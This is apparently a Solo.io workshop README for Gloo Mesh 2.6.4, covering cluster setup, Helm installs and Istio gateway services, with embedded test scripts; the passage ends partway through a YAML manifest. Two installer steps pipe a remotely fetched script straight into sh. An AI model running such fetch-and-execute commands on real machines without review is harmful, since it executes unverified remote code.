





<!--bash
source ./scripts/assert.sh
-->


<center></center>

# <center>Gloo Mesh Platform (2.6.4)</center>


## Table of Contents
* [Introduction](#introduction)
* [Lab 1 - Deploy KinD clusters](#lab-1---deploy-kind-clusters-)
* [Lab 2 - Deploy and register Gloo Mesh](#lab-2---deploy-and-register-gloo-mesh-)
* [Lab 3 - Deploy Istio using Gloo Mesh Lifecycle Manager](#lab-3---deploy-istio-using-gloo-mesh-lifecycle-manager-)
* [Lab 4 - Deploy the Bookinfo demo app](#lab-4---deploy-the-bookinfo-demo-app-)
* [Lab 5 - Deploy the httpbin demo app](#lab-5---deploy-the-httpbin-demo-app-)
* [Lab 6 - Deploy Gloo Mesh Addons](#lab-6---deploy-gloo-mesh-addons-)
* [Lab 7 - Create the gateways workspace](#lab-7---create-the-gateways-workspace-)
* [Lab 8 - Create the bookinfo workspace](#lab-8---create-the-bookinfo-workspace-)
* [Lab 9 - Expose the productpage through a gateway](#lab-9---expose-the-productpage-through-a-gateway-)
* [Lab 10 - Create the httpbin workspace](#lab-10---create-the-httpbin-workspace-)
* [Lab 11 - Expose an external service](#lab-11---expose-an-external-service-)
* [Lab 12 - Deploy Keycloak](#lab-12---deploy-keycloak-)
* [Lab 13 - Securing the access with OAuth](#lab-13---securing-the-access-with-oauth-)
* [Lab 14 - Use the transformation filter to manipulate headers](#lab-14---use-the-transformation-filter-to-manipulate-headers-)
* [Lab 15 - Use the DLP policy to mask sensitive data](#lab-15---use-the-dlp-policy-to-mask-sensitive-data-)
* [Lab 16 - Apply rate limiting to the Gateway](#lab-16---apply-rate-limiting-to-the-gateway-)
* [Lab 17 - Use the Web Application Firewall filter](#lab-17---use-the-web-application-firewall-filter-)
* [Lab 18 - Use the JWT filter to create headers from claims](#lab-18---use-the-jwt-filter-to-create-headers-from-claims-)
* [Lab 19 - Adding services to the mesh](#lab-19---adding-services-to-the-mesh-)
* [Lab 20 - Traffic policies](#lab-20---traffic-policies-)
* [Lab 21 - Create the Root Trust Policy](#lab-21---create-the-root-trust-policy-)
* [Lab 22 - Leverage Virtual Destinations for east west communications](#lab-22---leverage-virtual-destinations-for-east-west-communications-)
* [Lab 23 - Zero trust](#lab-23---zero-trust-)
* [Lab 24 - VM integration with Spire](#lab-24---vm-integration-with-spire-)
* [Lab 25 - Upgrade Istio using Gloo Mesh Lifecycle Manager](#lab-25---upgrade-istio-using-gloo-mesh-lifecycle-manager-)
* [Lab 26 - Gloo Mesh Management Plane failover](#lab-26---gloo-mesh-management-plane-failover-)
* [Lab 27 - Securing the egress traffic](#lab-27---securing-the-egress-traffic-)


## Introduction <a name="introduction"></a>

Gloo Mesh Enterprise is a distribution of the [Istio](https://istio.io/) service mesh that is hardened for production support across multicluster hybrid clusters and service meshes.
It includes Gloo Mesh Gateway, a feature-rich, Kubernetes-native ingress controller and next-generation API gateway, based on Istio and Envoy.
With Gloo Mesh Enterprise, you get an extensible, open-source based set of API tools to connect and manage your services across multiple clusters and service meshes.
It includes n-4 Istio version support with security patches to address Common Vulnerabilities and Exposures (CVEs), as well as special builds to meet regulatory standards such as Federal Information Processing Standards (FIPS).

The Gloo Mesh API simplifies the complexity of your service mesh by installing custom resource definitions (CRDs) that you configure.
Then, Gloo Mesh translates these CRDs into Istio resources across your environment, and provides visibility across all of the resources and traffic.
Enterprise features include multitenancy, global failover and routing, observability, and east-west rate limiting and policy enforcement through authorization and authentication plug-ins.

## Gloo Mesh Enterprise

Gloo Mesh Enterprise provides many unique features, including:

* Upstream-first approach to feature development
* Installation, upgrade, and management across clusters and service meshes
* Advanced features for security, traffic routing, tranformations, observability, and more
* End-to-end Istio support and CVE security patching for n-4 versions
* Specialty builds for distroless and FIPS compliance
* 24x7 production support and one-hour Severity 1 SLA
* Portal modules to extend functionality
* Workspaces for simplified multi-tenancy
* Zero-trust architecture for both north-south ingress and east-west service traffic
* Single pane of glass for operational management of Istio, including global observability



## Gloo Mesh Gateway

With Gloo Mesh Gateway, you have access to its exceptional function-level routing, discovery capabilities, numerous features, tight integration with leading open-source projects, and support for legacy apps, microservices, and serverless.
It is uniquely designed to support hybrid applications in which multiple technologies, architectures, protocols, and clouds can co-exist.

Built on [Istio's ingress gateway](https://www.solo.io/topics/istio/istio-ingress-gateway/), Gloo Mesh Gateway uses an Envoy proxy as the ingress gateway to manage and control traffic that enters your Kubernetes cluster.
You use custom resources, such as Gloo virtual gateways, route tables, and policies to implement security measures that meet your business and app requirements, and that simplify configuring ingress traffic rules.
Because these resources offer declarative, API-driven configuration, you can easily integrate Gloo Mesh Gateway into your existing GitOps and CI/CD workflows.

### Why would you choose Gloo Mesh Gateway?

* It has been developed from the beginning with the idea to be configured 100% through YAML
* It provides all the functionalities you expect from a modern API Gateway:
  * External authentication based on OAuth2, JWT, API keys, …
  * Authorization based on OPA
  * Advanced rate-limiting
  * Web Application Firewall based on ModSecurity
  * Advanced transformation
  * Customization through WebAssembly
* It includes Gloo Portal, a Kubernetes-native developer portal
* And much more

### Want to learn more about Gloo Mesh Enterprise?

You can find more information about Gloo Mesh Enterprise in the official documentation: <https://docs.solo.io/gloo-mesh/>


## Lab 1 - Deploy KinD clusters <a name="lab-1---deploy-kind-clusters-"></a>


Clone this repository and go to the directory where this `README.md` file is.

Set the context environment variables:

```bash
export MGMT=mgmt
export CLUSTER1=cluster1
export CLUSTER2=cluster2
```

Run the following commands to deploy three Kubernetes clusters using [Kind](https://kind.sigs.k8s.io/):

```bash
./scripts/deploy-aws-with-calico.sh 1 mgmt
./scripts/deploy-aws-with-calico.sh 2 cluster1 us-west us-west-1
./scripts/deploy-aws-with-calico.sh 3 cluster2 us-west us-west-2
```

Then run the following commands to wait for all the Pods to be ready:

```bash
./scripts/check.sh mgmt
./scripts/check.sh cluster1
./scripts/check.sh cluster2
```

**Note:** If you run the `check.sh` script immediately after the `deploy.sh` script, you may see a jsonpath error. If that happens, simply wait a few seconds and try again.

Once the `check.sh` script completes, when you execute the `kubectl get pods -A` command, you should see the following:

```
NAMESPACE            NAME                                          READY   STATUS    RESTARTS   AGE
kube-system          calico-kube-controllers-59d85c5c84-sbk4k      1/1     Running   0          4h26m
kube-system          calico-node-przxs                             1/1     Running   0          4h26m
kube-system          coredns-6955765f44-ln8f5                      1/1     Running   0          4h26m
kube-system          coredns-6955765f44-s7xxx                      1/1     Running   0          4h26m
kube-system          etcd-cluster1-control-plane                   1/1     Running   0          4h27m
kube-system          kube-apiserver-cluster1-control-plane         1/1     Running   0          4h27m
kube-system          kube-controller-manager-cluster1-control-plane1/1     Running   0          4h27m
kube-system          kube-proxy-ksvzw                              1/1     Running   0          4h26m
kube-system          kube-scheduler-cluster1-control-plane         1/1     Running   0          4h27m
local-path-storage   local-path-provisioner-58f6947c7-lfmdx        1/1     Running   0          4h26m
metallb-system       controller-5c9894b5cd-cn9x2                   1/1     Running   0          4h26m
metallb-system       speaker-d7jkp                                 1/1     Running   0          4h26m
```

**Note:** The CNI pods might be different, depending on which CNI you have deployed.

You can see that your currently connected to this cluster by executing the `kubectl config get-contexts` command:

```
CURRENT   NAME         CLUSTER         AUTHINFO   NAMESPACE  
          cluster1     kind-cluster1   cluster1
*         cluster2     kind-cluster2   cluster2
          mgmt         kind-mgmt       kind-mgmt
```

Run the following command to make `mgmt` the current cluster.

```bash
kubectl config use-context ${MGMT}
```
<!--bash
cat <<'EOF' > ./test.js
const helpers = require('./tests/chai-exec');

describe("Clusters are healthy", () => {
    const clusters = [process.env.MGMT, process.env.CLUSTER1, process.env.CLUSTER2];
    clusters.forEach(cluster => {
        it(`Cluster ${cluster} is healthy`, () => helpers.k8sObjectIsPresent({ context: cluster, namespace: "default", k8sType: "service", k8sObj: "kubernetes" }));
    });
});
EOF
echo "executing test dist/gloo-mesh-2-0-workshop/build/templates/steps/deploy-kind-clusters/tests/cluster-healthy.test.js.liquid"
tempfile=$(mktemp)
echo "saving errors in ${tempfile}"
timeout --signal=INT 3m mocha ./test.js --timeout 10000 --retries=120 --bail 2> ${tempfile} || { cat ${tempfile} && echo "" && cat ./test.js && exit 1; }
-->


## Lab 2 - Deploy and register Gloo Mesh <a name="lab-2---deploy-and-register-gloo-mesh-"></a>
[](https://youtu.be/djfFiepK4GY "Video Link")


Before we get started, let's install the `meshctl` CLI:

```bash
export GLOO_MESH_VERSION=v2.6.4
curl -sL https://run.solo.io/meshctl/install | sh -
export PATH=$HOME/.gloo-mesh/bin:$PATH
```
<!--bash
cat <<'EOF' > ./test.js
var chai = require('chai');
var expect = chai.expect;

describe("Required environment variables should contain value", () => {
  afterEach(function(done){
    if(this.currentTest.currentRetry() > 0){
      process.stdout.write(".");
       setTimeout(done, 1000);
    } else {
      done();
    }
  });

  it("Context environment variables should not be empty", () => {
    expect(process.env.MGMT).not.to.be.empty
    expect(process.env.CLUSTER1).not.to.be.empty
    expect(process.env.CLUSTER2).not.to.be.empty
  });

  it("Gloo Mesh licence environment variables should not be empty", () => {
    expect(process.env.GLOO_MESH_LICENSE_KEY).not.to.be.empty
  });
});
EOF
echo "executing test dist/gloo-mesh-2-0-workshop/build/templates/steps/deploy-and-register-gloo-mesh/tests/environment-variables.test.js.liquid"
tempfile=$(mktemp)
echo "saving errors in ${tempfile}"
timeout --signal=INT 3m mocha ./test.js --timeout 10000 --retries=120 --bail 2> ${tempfile} || { cat ${tempfile} && echo "" && cat ./test.js && exit 1; }
-->
Run the following commands to deploy the Gloo Mesh management plane:

```bash
kubectl --context ${MGMT} create ns gloo-mesh

helm upgrade --install gloo-platform-crds gloo-platform-crds \
  --repo https://storage.googleapis.com/gloo-platform/helm-charts \
  --namespace gloo-mesh \
  --kube-context ${MGMT} \
  --version 2.6.4

helm upgrade --install gloo-platform gloo-platform \
  --repo https://storage.googleapis.com/gloo-platform/helm-charts \
  --namespace gloo-mesh \
  --kube-context ${MGMT} \
  --version 2.6.4 \
  -f -<<EOF
licensing:
  glooTrialLicenseKey: ${GLOO_MESH_LICENSE_KEY}
common:
  cluster: mgmt
glooInsightsEngine:
  enabled: false
glooMgmtServer:
  enabled: true
  ports:
    healthcheck: 8091
prometheus:
  enabled: true
redis:
  deployment:
    enabled: true
telemetryGateway:
  enabled: true
  service:
    type: LoadBalancer
glooUi:
  enabled: true
  serviceType: LoadBalancer
telemetryCollector:
  enabled: true
  config:
    exporters:
      otlp:
        endpoint: gloo-telemetry-gateway:4317
EOF

kubectl --context ${MGMT} -n gloo-mesh rollout status deploy/gloo-mesh-mgmt-server
```

<!--bash
kubectl wait --context ${MGMT} --for=condition=Ready -n gloo-mesh --all pod
timeout 2m bash -c "until [[ \$(kubectl --context ${MGMT} -n gloo-mesh get svc gloo-mesh-mgmt-server -o json | jq '.status.loadBalancer | length') -gt 0 ]]; do
  sleep 1
done"
-->

Then, you need to set the environment variable to tell the Gloo Mesh agents how to communicate with the management plane:
<!--bash
cat <<'EOF' > ./test.js

const helpers = require('./tests/chai-exec');

describe("MGMT server is healthy", () => {
  let cluster = process.env.MGMT;
  let deployments = ["gloo-mesh-mgmt-server","gloo-mesh-redis","gloo-telemetry-gateway","prometheus-server"];
  deployments.forEach(deploy => {
    it(deploy + ' pods are ready in ' + cluster, () => helpers.checkDeployment({ context: cluster, namespace: "gloo-mesh", k8sObj: deploy }));
  });
});
EOF
echo "executing test dist/gloo-mesh-2-0-workshop/build/templates/steps/deploy-and-register-gloo-mesh/tests/check-deployment.test.js.liquid"
tempfile=$(mktemp)
echo "saving errors in ${tempfile}"
timeout --signal=INT 3m mocha ./test.js --timeout 10000 --retries=120 --bail 2> ${tempfile} || { cat ${tempfile} && echo "" && cat ./test.js && exit 1; }
-->
<!--bash
cat <<'EOF' > ./test.js
const chaiExec = require("@jsdevtools/chai-exec");
var chai = require('chai');
var expect = chai.expect;
chai.use(chaiExec);

afterEach(function (done) {
  if (this.currentTest.currentRetry() > 0) {
    process.stdout.write(".");
    setTimeout(done, 1000);
  } else {
    done();
  }
});
EOF
echo "executing test dist/gloo-mesh-2-0-workshop/build/templates/steps/deploy-and-register-gloo-mesh/tests/get-gloo-mesh-mgmt-server-ip.test.js.liquid"
tempfile=$(mktemp)
echo "saving errors in ${tempfile}"
timeout --signal=INT 3m mocha ./test.js --timeout 10000 --retries=120 --bail 2> ${tempfile} || { cat ${tempfile} && echo "" && cat ./test.js && exit 1; }
-->

```bash
export ENDPOINT_GLOO_MESH=$(kubectl --context ${MGMT} -n gloo-mesh get svc gloo-mesh-mgmt-server -o jsonpath='{.status.loadBalancer.ingress[0].*}'):9900
export HOST_GLOO_MESH=$(echo ${ENDPOINT_GLOO_MESH%:*})
export ENDPOINT_TELEMETRY_GATEWAY=$(kubectl --context ${MGMT} -n gloo-mesh get svc gloo-telemetry-gateway -o jsonpath='{.status.loadBalancer.ingress[0].*}'):4317
export ENDPOINT_GLOO_MESH_UI=$(kubectl --context ${MGMT} -n gloo-mesh get svc gloo-mesh-ui -o jsonpath='{.status.loadBalancer.ingress[0].*}'):8090
```

Check that the variables have correct values:
```
echo $HOST_GLOO_MESH
echo $ENDPOINT_GLOO_MESH
```

<!--bash
cat <<'EOF' > ./test.js
const dns = require('dns');
const chaiHttp = require("chai-http");
const chai = require("chai");
const expect = chai.expect;
chai.use(chaiHttp);
const { waitOnFailedTest } = require('./tests/utils');

afterEach(function(done) { waitOnFailedTest(done, this.currentTest.currentRetry())});

describe("Address '" + process.env.HOST_GLOO_MESH + "' can be resolved in DNS", () => {
    it(process.env.HOST_GLOO_MESH + ' can be resolved', (done) => {
        return dns.lookup(process.env.HOST_GLOO_MESH, (err, address, family) => {
            expect(address).to.be.an.ip;
            done();
        });
    });
});
EOF
echo "executing test ./gloo-mesh-2-0/tests/can-resolve.test.js.liquid"
tempfile=$(mktemp)
echo "saving errors in ${tempfile}"
timeout --signal=INT 3m mocha ./test.js --timeout 10000 --retries=120 --bail 2> ${tempfile} || { cat ${tempfile} && echo "" && cat ./test.js && exit 1; }
-->
Finally, you need to register the cluster(s).


Here is how you register the first one:

```bash
kubectl apply --context ${MGMT} -f - <<EOF
apiVersion: admin.gloo.solo.io/v2
kind: KubernetesCluster
metadata:
  name: cluster1
  namespace: gloo-mesh
spec:
  clusterDomain: cluster.local
EOF

kubectl --context ${CLUSTER1} create ns gloo-mesh

kubectl get secret relay-root-tls-secret -n gloo-mesh --context ${MGMT} -o jsonpath='{.data.ca\.crt}' | base64 -d > ca.crt
kubectl create secret generic relay-root-tls-secret -n gloo-mesh --context ${CLUSTER1} --from-file ca.crt=ca.crt
rm ca.crt

kubectl get secret relay-identity-token-secret -n gloo-mesh --context ${MGMT} -o jsonpath='{.data.token}' | base64 -d > token
kubectl create secret generic relay-identity-token-secret -n gloo-mesh --context ${CLUSTER1} --from-file token=token
rm token

helm upgrade --install gloo-platform-crds gloo-platform-crds \
  --repo https://storage.googleapis.com/gloo-platform/helm-charts \
  --namespace gloo-mesh \
  --kube-context ${CLUSTER1} \
  --version 2.6.4

helm upgrade --install gloo-platform gloo-platform \
  --repo https://storage.googleapis.com/gloo-platform/helm-charts \
  --namespace gloo-mesh \
  --kube-context ${CLUSTER1} \
  --version 2.6.4 \
  -f -<<EOF
common:
  cluster: cluster1
glooAgent:
  enabled: true
  relay:
    serverAddress: "${ENDPOINT_GLOO_MESH}"
    authority: gloo-mesh-mgmt-server.gloo-mesh
telemetryCollector:
  enabled: true
  config:
    exporters:
      otlp:
        endpoint: "${ENDPOINT_TELEMETRY_GATEWAY}"
EOF
```

Note that the registration can also be performed using `meshctl cluster register`.

And here is how you register the second one:

```bash
kubectl apply --context ${MGMT} -f - <<EOF
apiVersion: admin.gloo.solo.io/v2
kind: KubernetesCluster
metadata:
  name: cluster2
  namespace: gloo-mesh
spec:
  clusterDomain: cluster.local
EOF

kubectl --context ${CLUSTER2} create ns gloo-mesh

kubectl get secret relay-root-tls-secret -n gloo-mesh --context ${MGMT} -o jsonpath='{.data.ca\.crt}' | base64 -d > ca.crt
kubectl create secret generic relay-root-tls-secret -n gloo-mesh --context ${CLUSTER2} --from-file ca.crt=ca.crt
rm ca.crt

kubectl get secret relay-identity-token-secret -n gloo-mesh --context ${MGMT} -o jsonpath='{.data.token}' | base64 -d > token
kubectl create secret generic relay-identity-token-secret -n gloo-mesh --context ${CLUSTER2} --from-file token=token
rm token

helm upgrade --install gloo-platform-crds gloo-platform-crds \
  --repo https://storage.googleapis.com/gloo-platform/helm-charts \
  --namespace gloo-mesh \
  --kube-context ${CLUSTER2} \
  --version 2.6.4

helm upgrade --install gloo-platform gloo-platform \
  --repo https://storage.googleapis.com/gloo-platform/helm-charts \
  --namespace gloo-mesh \
  --kube-context ${CLUSTER2} \
  --version 2.6.4 \
  -f -<<EOF
common:
  cluster: cluster2
glooAgent:
  enabled: true
  relay:
    serverAddress: "${ENDPOINT_GLOO_MESH}"
    authority: gloo-mesh-mgmt-server.gloo-mesh
telemetryCollector:
  enabled: true
  config:
    exporters:
      otlp:
        endpoint: "${ENDPOINT_TELEMETRY_GATEWAY}"
EOF
```

You can check the cluster(s) have been registered correctly using the following commands:
```
meshctl --kubecontext ${MGMT} check
```

```
pod=$(kubectl --context ${MGMT} -n gloo-mesh get pods -l app=gloo-mesh-mgmt-server -o jsonpath='{.items[0].metadata.name}')
kubectl --context ${MGMT} -n gloo-mesh debug -q -i ${pod} --image=curlimages/curl -- curl -s http://localhost:9091/metrics | grep relay_push_clients_connected
```

You should get an output similar to this:
```,nocopy
# HELP relay_push_clients_connected Current number of connected Relay push clients (Relay Agents).
# TYPE relay_push_clients_connected gauge
relay_push_clients_connected{cluster="cluster1"} 1
relay_push_clients_connected{cluster="cluster2"} 1
```
Finally, you need to specify which gateways you want to use for cross cluster traffic:

```bash
kubectl apply --context ${MGMT} -f - <<EOF
apiVersion: admin.gloo.solo.io/v2
kind: WorkspaceSettings
metadata:
  name: global
  namespace: gloo-mesh
spec:
  options:
    eastWestGateways:
      - selector:
          labels:
            istio: eastwestgateway
EOF
```
<!--bash
cat <<'EOF' > ./test.js
var chai = require('chai');
var expect = chai.expect;
const helpers = require('./tests/chai-exec');
describe("Cluster registration", () => {
  it("cluster1 is registered", () => {
    podName = helpers.getOutputForCommand({ command: "kubectl -n gloo-mesh get pods -l app=gloo-mesh-mgmt-server -o jsonpath='{.items[0].metadata.name}' --context " + process.env.MGMT }).replaceAll("'", "");
    command = helpers.getOutputForCommand({ command: "kubectl --context " + process.env.MGMT + " -n gloo-mesh debug -q -i " + podName + " --image=curlimages/curl -- curl -s http://localhost:9091/metrics" }).replaceAll("'", "");
    expect(command).to.contain("cluster1");
  });
  it("cluster2 is registered", () => {
    podName = helpers.getOutputForCommand({ command: "kubectl -n gloo-mesh get pods -l app=gloo-mesh-mgmt-server -o jsonpath='{.items[0].metadata.name}' --context " + process.env.MGMT }).replaceAll("'", "");
    command = helpers.getOutputForCommand({ command: "kubectl --context " + process.env.MGMT + " -n gloo-mesh debug -q -i " + podName + " --image=curlimages/curl -- curl -s http://localhost:9091/metrics" }).replaceAll("'", "");
    expect(command).to.contain("cluster2");
  });
});
EOF
echo "executing test dist/gloo-mesh-2-0-workshop/build/templates/steps/deploy-and-register-gloo-mesh/tests/cluster-registration.test.js.liquid"
tempfile=$(mktemp)
echo "saving errors in ${tempfile}"
timeout --signal=INT 3m mocha ./test.js --timeout 10000 --retries=120 --bail 2> ${tempfile} || { cat ${tempfile} && echo "" && cat ./test.js && exit 1; }
-->


## Lab 3 - Deploy Istio using Gloo Mesh Lifecycle Manager <a name="lab-3---deploy-istio-using-gloo-mesh-lifecycle-manager-"></a>
[](https://youtu.be/f76-KOEjqHs "Video Link")

We are going to deploy Istio using Gloo Mesh Lifecycle Manager.

<details>
  <summary>Install `istioctl`</summary>

Install `istioctl` if not already installed as it will be useful in some of the labs that follow.

```bash
curl -L https://istio.io/downloadIstio | sh -

if [ -d "istio-"*/ ]; then
  cd istio-*/
  export PATH=$PWD/bin:$PATH
  cd ..
fi
```

That's it!
</details>

Let's create Kubernetes services for the gateways:

```bash
kubectl --context ${CLUSTER1} create ns istio-gateways

kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: v1
kind: Service
metadata:
  labels:
    app: istio-ingressgateway
    istio: ingressgateway
  name: istio-ingressgateway
  namespace: istio-gateways
spec:
  ports:
  - name: http2
    port: 80
    protocol: TCP
    targetPort: 8080
  - name: https
    port: 443
    protocol: TCP
    targetPort: 8443
  selector:
    app: istio-ingressgateway
    istio: ingressgateway
    revision: 1-22
  type: LoadBalancer
EOF

kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: v1
kind: Service
metadata:
  labels:
    app: istio-ingressgateway
    istio: eastwestgateway
    topology.istio.io/network: cluster1
  name: istio-eastwestgateway
  namespace: istio-gateways
spec:
  ports:
  - name: status-port
    port: 15021
    protocol: TCP
    targetPort: 15021
  - name: tls
    port: 15443
    protocol: TCP
    targetPort: 15443
  - name: https
    port: 16443
    protocol: TCP
    targetPort: 16443
  - name: tls-spire
    port: 8081
    protocol: TCP
    targetPort: 8081
  - name: tls-otel
    port: 4317
    protocol: TCP
    targetPort: 4317
  - name: grpc-cacert
    port: 31338
    protocol: TCP
    targetPort: 31338
  - name: grpc-ew-bootstrap
    port: 31339
    protocol: TCP
